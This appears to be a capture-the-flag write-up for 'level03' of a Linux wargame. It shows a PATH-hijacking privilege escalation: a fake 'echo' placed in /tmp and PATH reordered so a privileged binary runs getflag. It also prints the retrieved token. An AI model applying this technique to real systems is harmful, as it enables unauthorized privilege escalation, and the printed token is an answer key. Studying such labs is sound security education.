 # level03 solve

Firstly, at all, when we get logged and trying to see if we got the file we can see we have one file ` level03 `

```
$ ls
> level03
```

It looks like a binary file so we decide to run it.

```
$ ./level03
> Exploit me
```

After some tries with gdb we decide to see inside the file.

```
$ cat ./level03
```

And we see some multiple line interesting. But the most curious line was ` /usr/bin/env echo Exploit me `

```
▒[▒/usr/bin/env echo Exploit me0p▒▒▒L▒▒▒▒p▒▒▒▒▒▒▒▒▒▒▒▒▒▒zR|
```

After some reflexion, we decide to try to see if the tmp folder got all right.
And it is the case, so we decide to redirect echo on getflag, because we suppose that the executable use ` execve ` for printing the message with the bin ` echo ` .

```
$ echo /bin/getflag > /tmp/echo
$ chmod 777 /tmp/echo
$ export PATH=/tmp
```

On line :

```
echo /bin/getflag > /tmp/echo ; chmod 777 /tmp/echo ; export PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

Remember to get back the old path if you remove it.

```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

Trying again and...

```
$ ./level03
> Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

We got it!

> <a href="../flag">flag</a> - <a href="../../level02">previous level</a> - <a href="../../level04">next level</a>
